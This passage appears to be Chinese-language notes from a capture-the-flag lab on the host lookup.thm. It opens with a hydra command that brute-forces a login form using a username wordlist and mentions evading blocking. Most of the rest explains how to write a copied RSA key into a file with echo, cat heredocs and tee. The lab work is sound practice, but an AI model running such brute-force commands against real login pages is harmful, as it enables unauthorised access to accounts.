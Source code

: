 ```
  hydra -L "$wordlist" -p password123 lookup.thm http-post-form -vV "/login.php:username=^USER^&password=^PASS^:Wrong username or password. Please try again."

  # 可以根据需要加入暂停、重试等操作，避免被目标网站封禁
  # sleep 1  # 可选，控制每个命令间的间隔时间
done

```


## 4. 在搞lookup的一大段rsa秘钥 但是vim进去又没办法粘贴 我就echo那段文本进我要的文件中

**覆盖文件内容**（如果文件已存在，内容会被覆盖）：

`echo "你的文本内容" > /path/to/your/file.txt`


### 1. **使用 `echo` 和输出重定向 (`>` 或 `>>`)**

如果你想将文本内容直接写入文件，可以使用 `echo` 命令结合重定向符号来完成。

- **覆盖文件内容**（如果文件已存在，内容会被覆盖）：

    `echo "你的文本内容" > /path/to/your/file.txt`
    
- **追加内容到文件末尾**（如果文件已存在，新的内容会被追加到文件末尾）：

    `echo "你的文本内容" >> /path/to/your/file.txt`


### 2. **使用 `cat` 和输出重定向**

你也可以使用 `cat` 命令，将多行文本复制到文件中。

- **将文本内容写入文件**：

    `cat << EOF > /path/to/your/file.txt 这是一行文本 这是第二行文本 EOF`

这条命令会将从 `EOF` 开始到 `EOF` 结束之间的文本内容写入指定的文件。如果文件存在，内容会被覆盖；如果文件不存在，则会创建该文件。

- **将文本内容追加到文件末尾**：

    `cat << EOF >> /path/to/your/file.txt 追加的内容 EOF`
### 3. **使用 `tee` 命令**

`tee` 命令可以从标准输入读取内容，并同时将其输出到文件和屏幕。你可以使用 `tee` 将文本复制到文件中。

- **覆盖文件内容**：

    `echo "你的文本内容" | tee /path/to/your/file.txt`

- **追加内容到文件末尾**

    `echo "你的文本内容" | tee -a /path/to/your/file.txt`

`tee` 命令非常有用，尤其是在你希望将输出内容既显示到屏幕上，又保存到文件中的时候。

# 在kali中使用pip来安装一些东西
